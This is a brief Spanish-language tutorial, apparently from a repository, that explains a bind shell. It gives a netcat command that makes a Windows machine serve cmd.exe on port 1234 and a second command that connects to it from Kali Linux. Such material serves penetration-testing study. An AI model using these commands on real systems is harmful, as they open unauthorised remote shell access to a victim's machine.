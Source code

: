 <h1 align="center">Bind shell</h1>

## **Introducción**

En una **bind shell**, el objetivo (víctima) abre un puerto en su sistema y escucha conexiones entrantes. Cuando un atacante se conecta a este puerto, puede acceder al sistema de la víctima, en este caso, al cmd (símbolo del sistema) de Windows.

## **Configuración de Bind Shell**

### **En la Víctima (Sistema Windows)**

1. Abrir la terminal (cmd.exe) con permisos de administrador.
2. Ejecutar el siguiente comando para abrir el puerto 1234 y escuchar conexiones entrantes:
    - nc -lvnp 1234 -e cmd.exe
3. Explicación del comando:
    - \-e cmd.exe: Ejecuta el cmd.exe cuando se establece una conexión.

### **En Kali Linux (Atacante)**

Ejecutar el siguiente comando para conectarse al puerto 1234 del sistema víctima:

- nc -n \*ip_victima\* 1234
